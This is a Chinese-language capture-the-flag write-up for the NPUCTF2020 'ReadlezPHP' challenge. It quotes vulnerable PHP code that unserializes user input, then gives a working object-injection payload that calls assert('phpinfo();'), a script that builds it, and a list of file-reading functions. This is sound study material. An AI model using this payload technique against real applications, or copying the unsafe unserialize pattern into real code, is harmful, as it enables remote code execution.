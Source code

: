 # \[NPUCTF2020]ReadlezPHP

## \[NPUCTF2020]ReadlezPHP

## 考点

* PHP反序列化
* 动态调用函数函数
* eval()特性

## wp

有个页面`time.php?source`

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

访问后得到源码，是php反序列化

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

payload：`time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}`

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo();';
    public $b = 'assert';

}
$c = new HelloPhp;

echo serialize($c);
```

## 小结

1. 为什么不能用eval呢？因为<mark style="color:red;">eval是构造器，不算是个函数，不能使用$b($a)的方式调用</mark>。
2. 读取文件的函数：<mark style="color:orange;">`readfile`</mark>，<mark style="color:orange;">`show_source`</mark>，<mark style="color:orange;">`highlight_file`</mark>，<mark style="color:orange;">`file_get_contents`</mark>
